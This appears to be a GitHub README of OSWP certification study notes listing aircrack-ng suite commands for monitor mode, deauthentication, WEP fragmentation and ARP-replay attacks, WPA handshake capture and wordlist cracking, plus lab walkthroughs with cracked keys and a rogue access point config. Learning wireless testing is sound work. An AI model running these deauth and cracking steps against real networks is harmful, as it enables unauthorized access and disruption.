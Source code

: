 # oswp
oswp-prep

airmon-ng check
airmon-ng check kill

airmon-ng start <interface>
airmon-ng stop <interface>

iw dev <interface> info
iwconfig <interface>


airodump-ng -c <cahnnel_number> <interface>

airodump-ng -c <cahnnel_number> --bssid <mac_address_ap> <interface>
airodump-ng -c <cahnnel_number> -w <saved_file_name> --output-format csv,pcap <interface>

aireplay-ng 
              --deauth       --> -0
              --fakeauth     --> -1
              --interactive  --> -2
              --arpplay      --> -3
              --chopchop     --> -4
              --fragment     --> -5
              --caffe-latte  --> -6
              --cfrag        --> -7
              --migmade      --> -8
              --test         --> -9

aireplay-ng -9 <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> <interface>
aireplay-ng -9 -e <wifi_name> -a <mac_address_ap> -D <interface>

aireplay-ng -9 -i <interface1> <interface2>


aircrack-ng -S

airdecap-ng
airdecap-ng -b <mac_address_ap> <cap_file_name.cap> ---> cap_file_name_dec.cap


airgraph-ng (CAPR)
airgraph-ng -i <file.csv> -o capr.png -g CAPR
ristretto capr.png


4 way handsake 

AUTH 
    -> PSK
    -> GMT

airodump-ng -c <cahnnel_number> -w <file_name> --essid <wifi_name> --bssid <mac_address_ap> <interface>
aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>
aircrack-ng -w <wordlist_file> -e <wifi_name> -b <mac_address_ap> <captured_handsake_file>

airdecap-ng -b <mac_address_ap> -e <wifi_name> -p <password> <captured_file>

/usr/share/wordlist
/usr/share


JtR
Crunch
RsMangler


john --wordlist=<file> --rules --stdout | aircrack-ng -e <wifi_name> -w - <captured_file>

hashcat -m 2500
cap2hccapx


WEP Example
-----------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay-ng -5 -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

packerforge-ng -0 -a <mac_address_ap> -h <fake_client_mac_or_station> -I <ip> -k <ip_broadcast> -y fragment.xor -w <captured_file_name>

airplay-ng -2 -r <captured_file_name> <interface>

WEP Example 2
-------------

airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay_ng -1 0 -e <wifi_name> -a <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aireplay_ng -1 0 -e <wifi_name> -y <file_xor> -h <fake_client_mac_or_station> <interface>

aireplay-ng --arpplay -b <mac_address_ap> -h <fake_client_mac_or_station> <interface>

aircrack-ng -0 <captured_file>


WPA Example 1
-------------
airmon-ng start <interface>

airodump-ng -c <channel_number> --bssid <mac_address_ap> <interface> -w <file_name>

aireplay-ng -0 1 -a <mac_address_ap> -c <client_mac_address> <interface>

aircrack-ng -0 -w <wordlist> <captured_file_name>



INE_Attack_defense_Example_WEP_1
--------------------------------
iw dev

iw dev wlan0 setup monitor none

airodump-ng wlan0

airodump-ng wlan0 -c 6 -w capture

aireplay-ng -3 -b B8:0D:F7:D5:79:F9 -h 02:00:00:00:09:00 wlan0

aircrack-ng capture-01.cap

**WPA Supplicant Configuration**
network={
  ssid="EpicMediaCorp"
  key_mgmt=NONE
  wep_key0="14332"
  wep_tx_keyidx=0
}

**wpa_supplicant -B -Dnl80211 -iwlan1 -c supplicant.conf**

**dhclient -v wlan1**



INE_Attack_defense_Example_WPA-PSK_1
------------------------------------
iw dev

airodump-ng wlan0 -c 6 -w test

aireplay-ng -0 100 -a A2:E9:68:D3:03:10 wlan0

aircrack-ng -w 100-common-passwords.txt test-01.cap

**WPA Supplicant Configuration**
network={
  ssid="NewGenAirways"
  scan_ssid=1
  key_mgmt=WPA-PSK
  psk="jasmine1"
}
**wpa_supplicant -B -Dnl80211 -iwlan1 -c supplicant.conf**

**dhclient -v wlan1**


INE_Attack_defense_Example_AP-less_WPA2-PSK_1
----------------------------------------------
iw dev

airodump-ng wlan0 -c 6 -w capture

**Fake_ap.conf content:**
  interface=wlan1
  hw_mode=g
  channel=6
  driver=nl80211
  ssid=Woodwork_LLP
  auth_algs=1
  wpa=2
  wpa_key_mgmt=WPA-PSK
  rsn_pairwise=CCMP
  wpa_passphrase=123456789
  
**hostapd -d fake_ap.conf**

aircrack-ng -w 100-common-passwords.txt capture-01.cap
